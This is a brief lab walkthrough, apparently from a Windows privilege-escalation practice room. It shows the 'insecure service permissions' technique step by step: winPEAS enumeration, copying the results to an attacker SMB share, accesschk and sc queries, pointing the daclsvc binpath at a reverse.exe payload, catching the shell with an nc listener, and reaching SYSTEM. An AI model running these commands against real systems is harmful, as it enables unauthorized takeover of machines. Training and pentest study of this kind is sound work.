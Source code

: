 1x1 Service - Insecure Service Permissions

# Service - Insecure Service Permissions


```bash
.\winPEASany.exe ansi quiet servicesinfo > wpeas_services_op.txt

copy C:\PrivEsc\wpeas_services_op.txt \\10.9.4.127\kali\wpeas_services_op.txt

cat wpeas_services_op.txt
```
Identified 1 service mis-configuration

![60aa5646ccd37c92dc373d5e61d9d460.png](../_resources/d12fd0d8da27468c9bba7d009f3470d4.png)

```console
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
```
![f870c547a46421c0eb583c0fc4454d57.png](../_resources/bd3784743fd3463791e4a3c18d1d4bda.png)

```bash
sc qc daclsvc
```
![1340a8c57e12e021acbb4edd93eb1acf.png](../_resources/d8e4b60968254cf18f29e2079fb8f20a.png)
```bash
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```
![dcd10a4f4b7e9f18aba5dfd1e0553cae.png](../_resources/1395e21362e5484cb8bff4e38d236d80.png)
```bash
sudo nc -nvlp 53
```
![3ac4ed949ced18b1c395b06dd5557eb8.png](../_resources/c0e7c68956704e57b1d692544765a4db.png)
```bash
net start daclsvc
```
![b659f3b70af91f40100290ea2a43e292.png](../_resources/5ae2f9754cff49f4888bc38c23b09e62.png)

**Got System**

![9f52a47513a45133f9bccf190222e1a3.png](../_resources/fb69977262b84ab4b6b1f132568bc9cd.png)
